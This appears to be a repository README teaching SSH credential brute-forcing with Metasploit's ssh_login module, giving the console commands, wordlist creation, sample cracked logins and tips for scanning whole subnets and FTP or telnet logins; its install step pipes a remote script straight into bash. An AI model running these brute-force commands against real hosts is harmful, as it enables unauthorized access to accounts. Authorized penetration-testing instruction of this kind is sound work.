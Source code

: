 
---

# **Metasploit Framework - SSH Login Brute-Force Module**

This repository contains detailed steps for using the **Metasploit Framework** and its **SSH Login Module (`auxiliary/scanner/ssh/ssh_login`)** to brute-force **SSH credentials** on a specified target system. This is useful for **penetration testing** and **red teaming** engagements.

---

## **⚠️ Disclaimer**
This guide is intended for **educational purposes only**. Unauthorized access or brute-forcing systems without proper permission is **illegal** and **punishable by law**. **Only use this guide in authorized testing environments.**

---

# **What Is Metasploit?**
[Metasploit](https://www.metasploit.com/) is a popular **penetration testing platform** that helps security professionals and ethical hackers identify, exploit, and validate vulnerabilities within systems.

---

---

# **Installation Guide**
---

### **Step 1: Install Metasploit Framework**
1. **Update the System:**
   ```bash
   sudo apt update && sudo apt upgrade -y
   ```

2. **Install Metasploit Framework:**
   ```bash
   curl https://raw.githubusercontent.com/rapid7/metasploit-framework/master/msfupdate | bash
   ```

3. **Launch Metasploit Console:**
   ```bash
   sudo msfconsole
   ```

---

# **Metasploit SSH Login Brute-Force Module**
---

## **Step 2: Load the SSH Login Module**
1. **Start Metasploit:**
   ```bash
   sudo msfconsole
   ```

2. **Load the SSH Login Module:**
   ```bash
   use auxiliary/scanner/ssh/ssh_login
   ```

---

## **Step 3: Configure the Module**
1. **Set the Target Host:**
   ```bash
   set RHOSTS 192.168.8.144  # Replace with target IP
   ```

2. **Set the SSH Port (if custom):**
   ```bash
   set RPORT 2222  # Replace with your target SSH port
   ```

3. **Set the Username File:**
   ```bash
   set USER_FILE users.txt
   ```

4. **Set the Password File:**
   ```bash
   set PASS_FILE pass.txt
   ```

5. **Enable Bruteforce:**
   ```bash
   set BRUTEFORCE_SPEED 5
   ```

6. **Set Thread Count for Faster Execution:**
   ```bash
   set THREADS 4
   ```

7. **Enable Verbose Mode (Optional):**
   ```bash
   set VERBOSE true
   ```

---

## **Step 4: Run the Brute-Force Attack**
```bash
run
```

---

# **Expected Output Example**
```
[*] 192.168.8.144:2222 - Starting bruteforce with 4 threads
[+] 192.168.8.144:2222 - Success: 'admin:password'
[+] 192.168.8.144:2222 - Success: 'root:toor'
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

---

---

# **Module Configuration Overview**
| **Option**          | **Description**                        |
|---------------------|----------------------------------------|
| `RHOSTS`            | Target IP address(es)                 |
| `RPORT`             | Target SSH port (default: 22)         |
| `USER_FILE`         | File containing a list of usernames   |
| `PASS_FILE`         | File containing a list of passwords   |
| `BRUTEFORCE_SPEED`  | Bruteforce speed (1-5, default: 5)    |
| `THREADS`           | Number of parallel threads            |
| `VERBOSE`           | Show each attempt (true/false)        |

---

# **Custom Wordlist Files**
1. Create a **Username File (`users.txt`)**:
   ```bash
   echo -e "admin\nroot\nuser" > users.txt
   ```

2. Create a **Password File (`pass.txt`)**:
   ```bash
   echo -e "password\n123456\ntoor" > pass.txt
   ```

---

# **Tips for Advanced Use**
- **Use IP Ranges:** 
  ```bash
  set RHOSTS 192.168.8.0/24
  ```

- **Test Multiple Services:**
  Use other modules like:
  ```
  use auxiliary/scanner/ftp/ftp_login
  use auxiliary/scanner/telnet/telnet_login
  ```

---

---

# **Security Recommendations**
- **Never run this against unauthorized targets.**
- **Use encrypted VPNs** when testing externally.
- **Document findings** for authorized penetration testing reports.

---
